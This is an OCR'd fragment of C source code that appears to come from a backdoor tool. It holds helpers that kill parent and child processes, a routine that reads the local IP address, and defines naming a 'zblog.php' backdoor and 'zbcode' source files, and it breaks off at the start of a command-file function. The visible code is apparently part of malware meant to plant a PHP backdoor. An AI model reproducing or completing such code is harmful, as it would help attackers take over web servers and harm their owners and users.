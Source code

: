 void re_connt_lm(int st_sock_va,int type)
{
 if(st_sock_va==-1)
 {
  if(!type){
   kill(getppid(),9); // parent
  }
  kill((int)proc_r(),9); // child
  sf_exit();
 }
}

int proc_r(){
 FILE *fp;
 int proc_n;
 if((fp=fopen(PRC_FILE,"r"))==NULL){
  exit(-1); // child check.
 }
 fscanf(fp,"%16d",&proc_n);
 fclose(fp);
 return proc_n;
}

int g_ip(char *ip)
{
 int sock;
 struct ifreq ifpq;
 struct sockaddr_in *pq;

 memset(&ifpq,0,sizeof(ifpq));
 if((sock=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP))==-1)
 {
  return(-1);
 }
 pq=(struct sockaddr_in *)&ifpq.ifr_addr;
 pq->sin_family=AF_INET;
 
 memcpy(ifpq.ifr_name,(DEF_ETH),sizeof(ifpq.ifr_name));
 if(ioctl(sock,SIOCGIFADDR,&ifpq)==0)
 {
  memset((char *)ip,0,(MIN_BUF));
  snprintf(ip,(MIN_BUF)-1,"%s",inet_ntoa(pq->sin_addr));
 }
 return 0;
}

#define BACKDOOR_PATH "zblog.php"
#define CODE_PATH "zbcode"
#define CODE_PATH_SRC "zbcode.c"

int make_cmd_file()
{
 unsigned long w1=0;
 FILE *fp;
 FILE *pf;
 